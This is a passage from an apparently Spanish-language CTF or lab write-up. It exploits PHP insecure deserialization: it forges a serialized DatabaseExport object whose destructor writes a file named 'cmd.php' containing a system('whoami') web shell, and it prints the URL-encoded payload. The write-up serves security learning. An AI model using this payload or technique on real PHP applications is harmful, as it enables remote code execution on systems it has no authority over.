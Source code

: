 ```php
Interactive shell

php > file_put_contents(__DIR__ . '/' . "test", "testing");
```

```bash                                                                            
❯ cat test
```

```ruby
testing   
```

> Antes de nada vamos a desglosar el código. Primero el script pide un párametro 'arepo', el cual lo deserializa. Viendo esto podemos probar a ejecutar alguna función del script, como la función destruct(). La función destruct() permite crear archivos con el contenido y el nombre que queramos en el directorio actual.

```php
<?php

class DatabaseExport{

	public $user_file= "cmd.php";
	public $data= "<?php system('whoami');?>";

}
echo urlencode(serialize(new DatabaseExport))

?>
```

```bash
❯ php exploit.php
```

```ruby
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22cmd.php%22%3Bs%3A4%3A%22data%22%3Bs%3A25%3A%22%3C%3Fphp+system%28%27whoami%27%29%3B%3F%3E%22%3B%7D
```

> Para crear el objeto deserializado, creamos un script en php que crea una clase DatabaseExport, la cual serializa dos parametros: 
> 1. user_file: nombre del archivo
> 2. data: contenido del archivo

![](/img2/Pasted%20image%2020250628214204.png)
